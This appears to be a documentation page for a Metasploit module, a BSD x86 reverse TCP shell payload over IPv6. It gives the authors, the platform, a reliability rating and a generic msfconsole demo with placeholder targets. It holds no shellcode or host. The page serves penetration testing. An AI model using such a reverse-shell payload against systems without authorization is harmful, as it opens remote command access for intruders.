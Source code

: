 ## BSD Command Shell, Reverse TCP Inline (IPv6)

Connect back to attacker and spawn a command shell over IPv6


## Module Name
payload/bsd/x86/shell_reverse_tcp_ipv6

## Authors
* skape
* vlad902
* hdm





## Platforms
bsd

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/bsd/x86/shell_reverse_tcp_ipv6
msf payload(shell_reverse_tcp_ipv6) > show targets
   ... a list of targets ...
msf payload(shell_reverse_tcp_ipv6) > set TARGET <target-id>
msf payload(shell_reverse_tcp_ipv6) > show options
   ... show and set options ...
msf payload(shell_reverse_tcp_ipv6) > run
```
    
    